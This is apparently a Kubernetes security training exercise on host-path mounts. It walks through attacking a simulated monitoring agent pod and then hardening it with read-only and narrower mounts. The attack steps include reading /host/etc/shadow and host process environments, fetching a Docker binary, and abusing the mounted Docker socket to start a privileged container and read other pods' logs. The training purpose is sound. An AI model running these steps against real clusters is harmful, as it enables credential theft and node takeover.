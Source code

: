 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Read-only host mounts"
draft = false
toc = true
weight = 15
+++

### Introduction
In this exercise, we cover:

 - The risk of host mounts
 - How to use read-only mounts if they suffice

### Setup
In this example, we'll just directly use a shell inside the app.
Our example app will be a simulated monitoring agent mounting the same paths as the [Datadog DaemonSet](https://docs.datadoghq.com/agent/kubernetes/daemonset_setup/?tab=k8sfile):
```
volumeMounts:
  - {name: dockersocket, mountPath: /var/run/docker.sock}
  - {name: procdir, mountPath: /host/proc, readOnly: true}
  - {name: cgroups, mountPath: /host/sys/fs/cgroup, readOnly: true}
  - {name: s6-run, mountPath: /var/run/s6}
  - {name: logpodpath, mountPath: /var/log/pods}
  ## Docker runtime directory, replace this path with your container runtime
  ## logs directory, or remove this configuration if `/var/log/pods`
  ## is not a symlink to any other directory.
  - {name: logcontainerpath, mountPath: /var/lib/docker/containers}
```

We'll also mount `/etc` itself for extra fun.

Let's deploy our simulated agent:

```
kubectl apply -f https://securek8s.dev/agent/base.yaml
```

<!-- TODO: note that you read env vars with this mount, even if read-only. Also, the Docker socket—scream! -->

### Attack
With our power to execute commands, we'll see what types of files we
could modify, and what sorts of access they could provide.

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```bash
kubectl exec -it -n mounts $(kubectl get po -n mounts --output=jsonpath='{.items[0].metadata.name}') bash
```

Now, try some host modifications and information gathering attempts:

```
touch /host/etc/flag
cat /host/etc/shadow
ls /host/proc/
cat /host/proc/*/cmdline
cat /host/proc/1/cmdline
ls -alh /host/proc/1/environ
```

Note that our host info is different from our container's:

```
cat /proc/1/cmdline
```

What else can you come up with?

Note that this deployment is extra-dangerous because it mounts the Docker socket.
That's a great way for your container to have effectively root privileges on the node.

First, let's install `curl` to download some more tools:

```
apt-get update
apt-get install -y curl
```

Next, let's install Docker and show the running containers on the host:

```bash
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
```

And let's use our access to launch a privileged container (more on this in [a later exercise](../65-privileged)):
```
./docker/docker run --rm -it --privileged ubuntu
```

This container has elevated access to the host.
You can do whatever you like, though your container still has its own file system and process namespaces, so it's not _precisely_ like being on the host.
We'll cover more about privileged containers in [a later exercise](../65-privileged).

Hit `ctrl-D` to exit once you've finished poking around.

Now you're back in the pod.

Let's use some of the other mounts in our simulated agent.
For instance, we could spy on other containers' logs:
```
ls /var/log/pods
```

Pick a pod you're interested in, then see what you can learn from the logs:

```
ls /var/log/pods/<your-pod-name>
... continue checking things out ...
```

Hit `Ctrl-D` to exit the pod.

### Countermeasure
We can:

 - Remove some mount paths our application doesn't need,
 - Mark some of our mounts read-only, and
 - Mount more specific paths,

depending on the access we actually need.

This can require a bit of application knowledge, so is often best done with the team that maintains or operates the app.

Let's see what our improved deployment changes (a few mounts removed, and one marked read-only):

```
kubectl diff -f https://securek8s.dev/agent/improved.yaml
```

Then let's deploy it:

```
kubectl apply -f https://securek8s.dev/agent/improved.yaml
```

Make sure the old pod has been deleted, and the new one is marked `Running`:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts $(kubectl get po -n mounts --output=jsonpath='{.items[0].metadata.name}') bash
```

### Attack effects after patching
You can't mess with stuff if you can't write to it, or
find out information you can't read!

Note that the Docker socket [still **does** work](https://news.ycombinator.com/item?id=17983623) despite us mounting it read-only:

Install `curl`:

```
apt-get update
apt-get install -y curl
```

Download and use `docker`:

```bash
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

If we try some of the same manipulations we tried earlier, they'll fail.

Hit `Ctrl-D` to exit the pod when you're done.

### How to use it yourself
If you use an application that needs to know something about the host,
you might need to mount a host path.

You can minimize the risk that such mounts poses by:

 - marking them read-only, and
 - minimizing the mount surface to just what's required.

Note, when you're slimming down mounts: container runtimes will sometimes _create_ files on your host
if they do not exist, which can be a problem if you want to mount
a path that might not exist.
This is particularly annoying when you try to mount a specific file
and the runtime creates a directory.

### Next up
We'll pivot to network policies in the next exercise:

[**Network policies**](../20-netpol)
